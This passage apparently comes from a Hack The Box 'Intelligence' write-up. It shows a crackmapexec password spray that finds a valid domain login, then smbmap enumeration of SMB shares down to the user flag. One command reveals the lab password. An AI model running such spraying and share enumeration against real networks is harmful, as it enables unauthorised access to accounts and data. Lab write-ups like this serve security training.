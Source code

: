 ```text
┌──(root💀kali)-[~/htb/intelligence]
└─# crackmapexec smb intelligence.htb -u ./users.txt -p '<HIDDEN>'
SMB    10.10.10.248    445    DC    [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB    10.10.10.248    445    DC    [-] intelligence.htb\Anita.Roberts:<HIDDEN> STATUS_LOGON_FAILURE 
SMB    10.10.10.248    445    DC    [-] intelligence.htb\Brian.Baker:<HIDDEN> STATUS_LOGON_FAILURE 
SMB    10.10.10.248    445    DC    [-] intelligence.htb\Brian.Morris:<HIDDEN> STATUS_LOGON_FAILURE 
<SNIP>
SMB    10.10.10.248    445    DC    [+] intelligence.htb\Tiffany.Molina:<HIDDEN>
```

## SMBMap

We find Tiffany has forgotten to change her password! We can use smbmap to enumerate the SMB shares:

```text
┌──(root💀kali)-[~/htb/intelligence]
└─# smbmap -u Tiffany.Molina -p <HIDDEN> -H intelligence.htb
[+] IP: intelligence.htb:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ ONLY
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
```

We have read access to Users and one called IT. Instead of walking around the shares looking manually, we can get smbmap to list everything we have access to:

```text
┌──(root💀kali)-[~/htb/intelligence]
└─# smbmap -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -H intelligence.htb -R
[+] IP: intelligence.htb:445    Name: unknown
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        <SNIP>
        IT                                                      READ ONLY
        .\IT\*
        fr--r--r--             1046 Mon Apr 19 01:50:58 2021    downdetector.ps1
        <SNIP>
        Users                                                   READ ONLY
        .\Users\*
        dr--r--r--                0 Mon Apr 19 01:18:39 2021    Administrator
        dr--r--r--                0 Mon Apr 19 04:16:30 2021    All Users
        dw--w--w--                0 Mon Apr 19 03:17:40 2021    Default
        dr--r--r--                0 Mon Apr 19 04:16:30 2021    Default User
        fr--r--r--              174 Mon Apr 19 04:15:17 2021    desktop.ini
        dw--w--w--                0 Mon Apr 19 01:18:39 2021    Public
        dr--r--r--                0 Mon Apr 19 02:20:26 2021    Ted.Graves
        dr--r--r--                0 Mon Apr 19 01:51:46 2021    Tiffany.Molina
        <SNIP>
        .\Users\Tiffany.Molina\Desktop\*
        fw--w--w--               34 Thu Oct  7 12:55:49 2021    user.txt
```
